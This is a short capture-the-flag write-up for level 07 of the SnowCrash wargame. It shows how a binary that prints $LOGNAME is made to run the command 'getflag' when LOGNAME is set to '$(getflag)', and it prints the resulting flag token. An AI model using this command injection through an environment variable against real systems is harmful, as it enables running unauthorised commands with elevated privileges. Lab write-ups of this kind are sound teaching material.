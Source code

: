 Level 07
========

This one was the easiest of all

*	There is no file to be found except the executable that we get in the root
*	First thing I did was to try it
	```console
	level07@SnowCrash:~$ ./level07 
	level07
	```
*	From this point I two options in mind
	*	The program prints the programs arguments starting from 0
	*	The program prints an env variable
*	I tried adding arguments but nothing changed so that's not it
*	So I took a look at `$USER` and tried to change it but nothing changed
	```console
	level07@SnowCrash:~$ export USER=getflag
	level07@SnowCrash:~$ ./level07 
	level07
	```
*	Last option we had was to change the `$LOGNAME`
	```console
	level07@SnowCrash:~$ export LOGNAME=test
	level07@SnowCrash:~$ ./level07 
	test
	```
*	Now the rest is simple, I just need to make it so the program prints the result of `getflag`
	```console
	level07@SnowCrash:~$ export LOGNAME='$(getflag)'
	level07@SnowCrash:~$ ./level07
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```